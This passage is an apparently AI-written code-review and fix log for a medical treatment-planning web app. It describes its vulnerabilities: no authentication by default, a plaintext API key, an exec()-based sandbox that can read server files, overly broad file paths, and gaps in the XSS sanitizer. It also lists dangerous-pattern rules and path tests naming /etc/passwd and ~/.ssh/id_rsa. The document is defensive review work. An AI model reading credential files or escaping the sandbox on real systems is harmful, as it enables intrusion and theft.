| Fixed | 28+15 | 5+12 | 3+4 | 0 | **36+31=67** |
| To be fixed | 16 | 50 | 88 | 51 | **177** |

---

### Round 5/6 Fix Record (2026-06-28)

> Verified each issue one by one and fixed it after confirming it was a real bug. 25 issues verified, 18 fixed, 7 skipped.

#### Fixed (18)

| # | Issue | File | Fix Content |
|---|------|------|----------|
| U-04 | `List[any]` type error | communication/message_bus.py:50 | `List[any]` → `List[Any]` |
| U-05 | _history unbounded growth | communication/message_bus.py:28-32 | Added `max_history=1000` + over-limit eviction |
| U-07 | Deprecated asyncio API | communication/message_bus.py:103 | `get_event_loop()` → `get_running_loop()` |
| U-09 | OpenAI max_retries unused | brain/providers/openai_llm.py:82 | Pass `max_retries` to the OpenAI client |
| U-10 | Anthropic streaming fallback type | brain/providers/anthropic_llm.py:368 | Removed raw string yield, unified to dict |
| U-11 | LocalLLM double /v1 | brain/providers/local_llm.py:18,41 | Removed `/v1` from the base_url default, corrected the models endpoint |
| U-13 | QualityDecider max score 80 | brain/deciders/quality_decider.py:21,111 | Documentation corrected to 0-80, threshold >=80→>=65 |
| U-16 | kwargs override (8 providers) | brain/providers/*.py | Reordered the update sequence in 8 providers |
| U-17 | latency_ms=0 (8 providers) | brain/providers/*.py | Added actual latency measurement to 8 providers |
| U-32 | Chinese token estimation | memory/smart_context.py:169-171 | Estimate CJK characters at 1 token/character |
| U-34 | Case-sensitive matching | memory/user_profile.py:191 | Keyword list unified to lowercase |
| U-35 | Some lower() missing | memory/user_profile.py:163-168 | Added `.lower()` uniformly |
| U-39 | Trigger word "complex" too broad | skills/markdown/rl_planning.md:8 | Removed "complex", added "rl planning" |
| U-45 | Dose unit unclear | config/default_params.json:7 | Added unit comment (normalized 0-255) |
| U-46 | Relative path model | tool_factory/dose_engine/cnn_dose_engine.py:147 | Resolve to the project root directory |
| U-50 | ui_knowledge copy-paste | brain/knowledge/ui_knowledge.json:265 | 'segment' or 'segmentation' |
| V-20 | os in ALLOWED_MODULES | tool_factory/code_executor/__init__.py:30 | Added os.remove/os.rmdir to dangerous patterns |
| V-23 | /home path scope too broad | web/server.py:167 | `/home` → `os.path.expanduser("~")` |

#### Skipped (7 — not real bugs or intentional design)

| # | Issue | Reason |
|---|------|------|
| U-01 | Quality gate never rejects | **Intentional design** — APPEND-ONLY MODE, explicitly commented |
| U-02 | Provider format inconsistent | **Not a bug** — consumers already handle both formats |
| U-03 | MiniMax NameError | **Potential defect** — openai is already in requirements.txt, so it will not be missing |
| U-08 | No Agent = automatic pass | **Intentional design** — consistent with APPEND-ONLY mode |
| U-12 | OpenRouter arguments | **Not a bug** — consumers handle both string/dict |
| U-38/U-40 | References nonexistent tools | **False positive** — both tools exist |
| V-14 | _global_agent | **Architecture design** — web already has a fallback; changing it requires large-scale refactoring |

---

### Six-Round Highest-Priority Fix Roadmap (Updated)

| Priority | Issue | Fix Plan | Status |
|--------|------|----------|------|
| **P0** | No pyproject.toml (V-11) | Create pyproject.toml | To be fixed |
| **P0** | sys.path abuse (V-09) | Clean up alongside pyproject.toml | To be fixed |
| **P1** | XSS sanitizer (U-15) | Add data:/onerror/whitespace-free event handler handling | To be fixed |
| **P2** | Dockerization (T3-21) | Dockerfile + docker-compose | To be fixed |
| **P2** | Frontend modularization (H-02) | Split index.html | To be fixed |

---

**Round 6 Review Completion Time**: 2026-06-28  
**Reviewer**: MiMo Code Agent (3 parallel Agents)  
**Review Coverage**: 40+ files / ~12000 lines / modules not deeply covered previously  
**Cumulative Review**: 6 rounds / 244 issues / 67 fixed / 177 to be fixed  
**Round 5/6 Fixes**: 25 issues verified, 18 fixed, 7 skipped

---

## Round 7: CodeGraph Global Review and Architecture Calibration (2026-06-28)

> At the user's request, this round used the project's existing CodeGraph database `.codegraph/codegraph.db` to build a global understanding and cross-validated it with AST/source sampling. The focus is not to repeat the file-by-file lists of the first six rounds, but to confirm real high-risk issues from the call graph, entry points, state boundaries, and current working-tree changes.

### Review Inputs and Confidence

| Data Source | Result | Notes |
|--------|------|------|
| `.codegraph/codegraph.db` | 289 files / 6022 nodes / 10498 edges | Covers core Python/JS files, suitable for locating architectural hotspots |
| CodeGraph nodes | import 1696 / variable 1570 / method 1232 / function 928 / class 260 / route 47 | Flask routes, classes, methods, and call edges are indexed |
| CodeGraph edges | contains 5690 / calls 3489 / imports 620 / instantiates 548 | Sufficient to identify highly coupled modules and cross-module dependencies |
| AST route scan | `web/server.py` has 47 routes total | Extract decorators one by one to verify auth/rate-limit coverage |
| AST/source scan | 1515 `.py` files scanned, then filtered to application code after discovery | Avoid counting venv/vendor noise as real issues |
| CodeGraph daemon | Multiple `ENOSPC: System limit for number of file watchers reached` | Graph snapshots are usable, but incremental sync may miss changes |

### CodeGraph Global Architecture Understanding


```mermaid
graph TD
    UI["web/app/index.html\nsingle-page frontend + viewer + report"] --> API["web/server.py\n47 Flask routes / session manager / SSE"]
    API --> Agent["AgenticSys.py\nBrachyAgent / AgentMemory / function calling"]
    Agent --> Tools["tool_factory/*\nsegmentation / planning / executor / export"]
    Agent --> Brain["brain/*\nLLM providers / deciders / RAG / execution"]
    Agent --> Memory["memory/*\nconversation / preference / smart context"]
    Tools --> Plans["plans/*\ngeometry / dose / device manager"]
    Tools --> External["TotalSegmentator / nnUNet / dose model / web APIs"]
    API --> Outputs["uploads / outputs / screenshots / report export"]
```

The core runtime path can be summarized as:

1. `web/server.py` is the only major HTTP boundary, responsible for uploads, image loading, viewer slices/volumes, planning steps, chat, export, and status queries.
2. `AgenticSys.py` is the system kernel, holding `AgentMemory`, the tool registry, the LLM function-calling loop, and the global `_global_agent` compatibility layer.
3. `tool_factory/seed_plan/planning_pipeline.py` is the main treatment planning pipeline, depending on CT, CTV, OAR, the device manager, and dose/evaluation components.
4. `tool_factory/OAR_seg/totalsegmentator_oar.py`, `tool_factory/CTV_seg/*`, and `plans/*` form the imaging/segmentation/dose-calculation path, the highest-risk area for clinical correctness.
5. `brain/providers/*`, `memory/*`, and `skills/*` affect LLM behavior and tool selection, but the ultimate security boundary still rests on server routes, the tool executor, and file system access control.

### CodeGraph Hotspot Files

| Rank | File | Graph Evidence | Risk Implication |
|------|------|--------|----------|
| 1 | `AgenticSys.py` | out edges 978 / in edges 1103 / unresolved refs 1691 | System core; state, tool calls, and LLM behavior are highly concentrated |
| 2 | `web/server.py` | 160 nodes / 47 routes / unresolved refs 1518 | External attack surface and state entry points are highly concentrated |
| 3 | `tool_factory/seed_plan/planning_pipeline.py` | out edges 260 / 52 nodes | Main planning chain; the current working tree has a logic regression |
| 4 | `plans/utilizations.py` | 94 nodes / out edges 237 | High complexity in dose/geometry utility functions |
| 5 | `tool_factory/web_search/__init__.py` | 87 nodes / in/out edges ~200 | High complexity in network access and evidence chains |
| 6 | `tool_factory/env_manager/__init__.py` | out edges 102 | The LLM can trigger environment/package management; sensitive security boundary |

---

### Critical — Newly Added/Reconfirmed This Round

| # | File | Lines | Issue |
|---|------|------|------|
| CG-01 | `web/server.py` | 34-39, 177-188, 3764-3775 | **Default external listening + API key auth disabled by default**. The CLI defaults to `--host 0.0.0.0`, while `require_api_key` only actually takes effect when `BRACHYBOT_API_KEY` is set; when unset, all decorated endpoints also skip key validation. CORS cannot replace authentication, and non-browser clients can call directly. |
| CG-02 | `start_server.sh` | 7-9 | **Startup script writes a third-party LLM API key in plaintext**. The file is currently untracked, but it is in the project root and could easily be committed, screenshotted, copied into logs, or leaked via shell history. It is redacted in this report; the key must be rotated. |
| CG-03 | `tool_factory/code_executor/__init__.py` | 23-35, 83-126 | **CodeExecutor is not an effective sandbox**. `ALLOWED_MODULES` contains `os/sys/pathlib`, `safe_builtins` exposes `__import__`, and it ultimately runs via in-process `exec()`. Reproduced with the non-sensitive file `/etc/hostname`: tool code can read server files. There is also no real timeout/memory/CPU isolation. |

### High — Newly Added/Reconfirmed This Round

| # | File | Lines | Issue |
|---|------|------|------|
| CG-04 | `web/server.py` | 295-386, 3575-3606 | **Upload and screenshot write endpoints lack auth, lack rate limiting, and have insufficient file type validation**. `/api/upload` saves arbitrary filename extensions, and `/api/screenshot` accepts arbitrary base64 and writes to disk; there is only a global 500MB request limit, with no limit on file count, cumulative size, or MIME/content. |
| CG-05 | `web/server.py` | 142-174, 583-598, 950-985, 3171-3219, 3447-3451 | **Path boundaries too broad and applied inconsistently**. The `_validate_path()` allowlist includes the entire project root and the current user's home; `api_header_info` and `api_viewer_load` read the user-submitted `ct_path` directly without calling `_validate_path()`; `api_export_dicom_rt` and `api_export_stl` call `os.makedirs(output_dir)` directly. This expands the "read-only/write-only to uploads, outputs" security assumption to the entire home. |
| CG-06 | `web/server.py` | 2979-3001 | **`/api/config` POST can modify planning parameters without auth**. This endpoint lacks `@require_api_key` and `@rate_limit` and directly overwrites core planning parameters in `agent.config` such as seed, dose, RL, and distance. If the service is exposed on the default `0.0.0.0`, any reachable client can influence subsequent plans. |
| CG-07 | `tool_factory/seed_plan/planning_pipeline.py` | 614-620 | **OAR auto-recovery branch unreachable**. The current working tree adds `if oar_mask is None: return ...`, and line 620 immediately checks the same condition again and attempts to auto-run OAR segmentation; the latter never executes, breaking the original auto-recovery behavior. |
| CG-08 | `tool_factory/OAR_seg/totalsegmentator_oar.py` | 316-326 | **CPU fallback incorrectly mapped to GPU**. In the current change, all cases other than `_dev.startswith("cuda:")` set `device_str = "gpu"`; when the device manager returns `cpu`, `TotalSegmentator --device gpu` still runs and fails when no GPU is available or the GPU is disabled. |

### Medium — Newly Added/Reconfirmed This Round

| # | File | Lines | Issue |
|---|------|------|------|
| CG-09 | `web/server.py`, `AgenticSys.py` | `web/server.py:227-266, 3756`; `AgenticSys.py:168-172, 391-404` | **Missing locks for session/agent memory under Flask threaded=True**. `_sessions`, `_session_timestamps`, `planning_results`, `conversation`, and `_ui_state` are all read and written across multiple request threads; when long-running segmentation/planning runs concurrently with frontend polling, state tearing, stale patient data cross-use, or loss of conversation may occur. |
| CG-10 | `web/server.py` | 45-95, 3351-3367 | **TaskManager/SSE is not a continuous stream and tasks have no TTL**. `/api/tasks/stream` only outputs the current task snapshot and then ends, with no heartbeat/blocking wait; `_tasks` only grows and is never deleted, and the task list is exposed without auth. |
| CG-11 | `web/app/index.html` | 6168-6181, 6968-6976, 17643-17648 | **Frontend XSS risk should be corrected from "completely unfiltered" to "custom sanitizer insufficient + locally unescaped"**. LLM markdown passes through `_sanitizeHtml()`, but the regex sanitizer is not DOMPurify; the DVH tooltip still concatenates `traceName` directly into `innerHTML`. |
| CG-12 | `.codegraph/daemon.log` | tail | **CodeGraph incremental sync is affected by the inotify watcher limit**. The log repeatedly shows `ENOSPC: System limit for number of file watchers reached`, especially with many generated evidence/json files. The current DB is usable for this round's analysis, but before relying on CodeGraph to judge "latest code synced" in the future, the watcher/exclude configuration should be fixed first. |

---

### Calibration of the First Six Rounds' Conclusions

| Old Conclusion | This Round's Calibration |
|--------|----------|
| CORS configuration to be verified | Verified: CORS limits localhost origins by default, but the service CLI listens on `0.0.0.0` by default; CORS cannot replace API authentication. |
| `/api/status` exposure to be verified | Verified: `/api/status` and `/api/device/status` lack auth and expose brain/provider/device status; alone this is not P0, but combined with default no-auth/external listening the risk rises. |
| LLM tools without permissions is intentional design | The design intent can be retained, but `code_executor` is currently advertised as sandboxed while in reality it reads files in-process with no resource isolation; the documentation should be corrected or a real sandbox implemented. |
| `/home` path scope already fixed | It is currently `os.path.expanduser("~")`, still equivalent to allowing the entire `/home/user`. Reading medical data can be discussed, but the export write path and arbitrary file read endpoints are still too broad. |
| H-10 SSE no heartbeat to be verified | Verified: `/api/tasks/stream` only emits a snapshot and ends; it is not a continuous task event stream. The `/api/chat` streaming response has a keep-alive header but no application-layer heartbeat. |

### Fix Priority Recommendations

| Priority | Issue | Recommended Fix |
|--------|------|----------|
| P0 | CG-02 plaintext API key | Rotate the key immediately; remove it from `start_server.sh`; use shell environment or `.env` with `.gitignore`; clean up leaked copies in shell history/logs. |
| P0 | CG-01 default no-auth external service | Change the default host in `main()` back to `127.0.0.1`; whenever the host is non-loopback, require `BRACHYBOT_API_KEY`; add auth uniformly to all POST/export/upload/viewer data endpoints. |
| P0 | CG-03 CodeExecutor sandbox ineffective | Disable short-term or enable only for local development; remove `os/sys/pathlib/__import__`; long-term, switch to subprocess/container + uid isolation + seccomp/ulimit + wall-clock timeout. |
| P1 | CG-05 path boundaries | Implement `safe_join(base, user_path)`; restrict read paths to `uploads/` and explicitly configured data directories; restrict write paths to `outputs/`; prohibit symlink escape. |
| P1 | CG-04 upload/screenshot | Add `@require_api_key`, `@rate_limit`, extension + magic bytes validation, file count/cumulative size limits, and image decode size limits. |
| P1 | CG-07/CG-08 current working-tree regressions | Fix the unreachable OAR auto-recovery; pass `--device cpu` for CPU and the specific `gpu:N` for CUDA. |
| P2 | CG-09 concurrent state | Add an `RLock` to each session/agent; route long task state and memory updates through a single-threaded queue or transactional snapshot. |
| P2 | CG-11 frontend sanitizer | Introduce DOMPurify; use `textContent` or `escHtml` for all non-fixed-template data; the tooltip traceName must be escaped. |
| P2 | CG-12 CodeGraph sync | Exclude `uploads/`, `outputs/`, `memory/data/`, `tool_factory/web_search/evidence/`, and venv; raise `fs.inotify.max_user_watches` if necessary. |

### Round 7 Issue Statistics

| Severity | Count | Key Findings |
|--------|------|----------|
| Critical | 3 | Default external listening without auth, plaintext API key, CodeExecutor sandbox ineffective |
| High | 5 | Upload/screenshot writes, path boundaries, config tampering, planning_pipeline regression, OAR device regression |
| Medium | 4 | Multithreaded state races, TaskManager/SSE, frontend sanitizer, CodeGraph sync reliability |
| **Total** | **12** | |

**Round 7 Review Completion Time**: 2026-06-28
**Reviewer**: Codex CodeGraph Review
**Review Coverage**: CodeGraph DB + AST route scan + high-risk entry source verification + current working-tree diff
**Cumulative Review**: 7 rounds / 12 issues newly added or reconfirmed on top of the first six rounds

---

## Round 7 Fix Record (2026-06-28)

> Fix principle: Review each item to determine whether it truly exists and whether it is intentional design; only make code fixes for issues that are confirmed to exist and would amplify security/correctness risk. Retained capabilities are changed to explicitly enabled or safe defaults.

### Item-by-Item Review and Fix Status

| # | Review Conclusion | Fix Content | Verification |
|---|----------|----------|------|
| CG-01 | Confirmed real issue. Default `0.0.0.0` + auth decorator ineffective when no key is configured is not a safe default. | In `web/server.py`, changed the default host to `127.0.0.1`; non-loopback listening fails closed when `BRACHYBOT_API_KEY` is unset, unless `BRACHYBOT_ALLOW_INSECURE_REMOTE=1` is explicitly set; added `@require_api_key`/`@rate_limit` to high-risk APIs. | Flask test client verified `/api/config` returns 401 without a key and 200 with a key; `run_server(host="0.0.0.0")` without a key is rejected. |
| CG-02 | Confirmed real issue. A plaintext key in the startup script is unnecessary and leaks easily. | Removed the third-party LLM key from `start_server.sh` and changed it to read only shell environment variables; defaults to listening only on `127.0.0.1`; exits on remote listening without `BRACHYBOT_API_KEY`; added `start_server.sh` to `.gitignore`. | `bash -n start_server.sh` passes; grep found no token-style keys or assignment templates. Still recommend rotating any key ever exposed. |
| CG-03 | Confirmed real issue. The existing `exec()` cannot be called a sandbox. | `code_executor` is disabled by default and only runs when `BRACHYBOT_ENABLE_CODE_EXECUTOR=1` is set; removed high-risk modules such as `os/sys/pathlib/io`; custom `__import__` whitelist; strengthened dangerous pattern interception; documentation changed to "restricted execution". | Remote execution of `CodeExecutorTool()._execute(...)` returns `code_executor is disabled` by default; `py_compile` passes. |
| CG-04 | Confirmed real issue. Upload/screenshot are write surfaces and should require auth and limit content. | Added auth and rate limiting to `/api/upload` and `/api/screenshot`; uploads limit file count and allowed extensions; screenshots accept only PNG data URLs or PNG bytes, with size limits and PNG magic number validation. | Static check confirmed auth/rate limiting and PNG decoder exist; `git diff --check` passes. |
| CG-05 | Confirmed real issue. The original allowlist expanded read/write boundaries to the project root and home. | Split read/write roots; default reads allow only uploads, `/tmp`, `/data`, and explicitly configured `BRACHYBOT_DATA_ROOTS`; default writes allow only output/outputs/screenshots, `/tmp`, and explicitly configured `BRACHYBOT_OUTPUT_ROOTS`; `ct_path`, viewer load, and export paths all go through validation. | Path tests confirmed `/etc/passwd`, `~/.ssh/id_rsa`, and `/etc/brachybot-report.json` are rejected, uploads are readable, and `./output/report.json` resolves to the project output directory. |
| CG-06 | Confirmed real issue. `/api/config` can affect planning parameters and must not be an unauthenticated POST. | Added `@require_api_key` and `@rate_limit` to `/api/config` GET/POST. | Flask test client verified 401 without a key and 200 with a key. |
| CG-07 | Confirmed real issue. The OAR early return in the current working tree makes auto-recovery unreachable. | Removed the direct failure return for `oar_mask is None`, retained the explicit failure for missing CTV; when OAR is missing, re-enters the original auto-recovery branch. | Static check confirmed no direct OAR early return and that the `oar_segmentation` auto-recovery call still exists. |
| CG-08 | Confirmed real issue. Mapping CPU fallback to GPU causes failure when no GPU is available or the GPU is disabled. | `cuda:N` maps to `gpu:N`, bare `cuda` maps to `gpu`, and other devices map to `cpu`. | Static check confirmed both `cuda` and `cpu` branches exist. |
| CG-09 | Confirmed real issue. Under `threaded=True`, session/memory multithreaded reads and writes have no consistency protection. | Added an `RLock` for the session map in `web/server.py`; added an `RLock` to `AgenticSys.AgentMemory`, locking or snapshotting store/retrieve/conversation/ui_state/export/clear/compact reads and writes. | `AgenticSys.py` and `web/server.py` pass `py_compile`; related route imports and Flask client verification pass. |
| CG-10 | Confirmed real issue. Task state has no TTL and the SSE is only a snapshot. | Added TTL, maximum task count, created/updated times, and snapshot return to `TaskManager`; changed `/api/tasks/stream` to a short-lived continuous stream that sends change events and heartbeats, plus cache-disabling headers. | Static check and `git diff --check` pass. |
| CG-11 | Confirmed real issue, but the scope is calibrated to an insufficient custom sanitizer and local missing escaping. | Added an `/api/*` fetch wrapper to the frontend so `X-API-Key` can be attached via `window.setBrachyBotApiKey(key)`; strengthened `_sanitizeHtml()` filtering of dangerous tags, event handlers, `href/src/xlink:href` protocols, and inline style payloads; escaped/validated `traceName` and colors in the DVH tooltip. | Static check confirmed the API key wrapper, `escHtml(traceName)`, and URL/style sanitizers exist. Long-term, introducing DOMPurify to handle arbitrary HTML is still recommended. |
| CG-12 | Confirmed real issue. Generated files and large directories amplify CodeGraph watcher pressure. | Added `.codegraphignore` to exclude `.codegraph/`, uploads/output/outputs/screenshots/test_screenshots, memory/data, web_search evidence/cache, case_memory cases, venv, and large medical imaging files; `.gitignore` excludes generated directories in sync. | `.codegraphignore` is added to the working tree; CodeGraph must be restarted or re-indexed afterward to apply the new exclude configuration. |

### Verification Record for This Round

- Syntax check: `python -m py_compile web/server.py AgenticSys.py tool_factory/code_executor/__init__.py tool_factory/seed_plan/planning_pipeline.py tool_factory/OAR_seg/totalsegmentator_oar.py`
- Safe defaults: `code_executor` is disabled by default; remote listening without `BRACHYBOT_API_KEY` fails closed.
- Auth regression: after setting `BRACHYBOT_API_KEY`, `/api/config` returns 401 without `X-API-Key` and 200 with the correct key.
- Path boundaries: confirmed sensitive system paths and home private key paths are rejected, while the uploads read path and project output write path are allowed as expected.
- Static regression: confirmed OAR auto-recovery is reachable, TotalSegmentator CPU/CUDA device mapping is correct, the frontend API key wrapper and tooltip escaping exist, and the startup script has no plaintext key.
- Diff check: `git diff --check` passes for the files modified in this round.

### Remaining Cautions

1. The historical plaintext key from CG-02 must be rotated; this round can only remove the plaintext in the current working tree and cannot undo a leak that may already have occurred.
2. If external access to BrachyBot is needed, `BRACHYBOT_API_KEY` must be explicitly set and the frontend must write the local key via `window.setBrachyBotApiKey(...)`; the default startup faces only the local loopback.
3. `code_executor` is now a restricted executor disabled by default, not a true container sandbox; if the business genuinely needs it enabled, it is still recommended to move to a subprocess/container, a low-privilege user, resource limits, and a wall-clock timeout.
4. The CodeGraph watcher/exclude configuration only fully takes effect after the daemon is restarted or re-indexed.
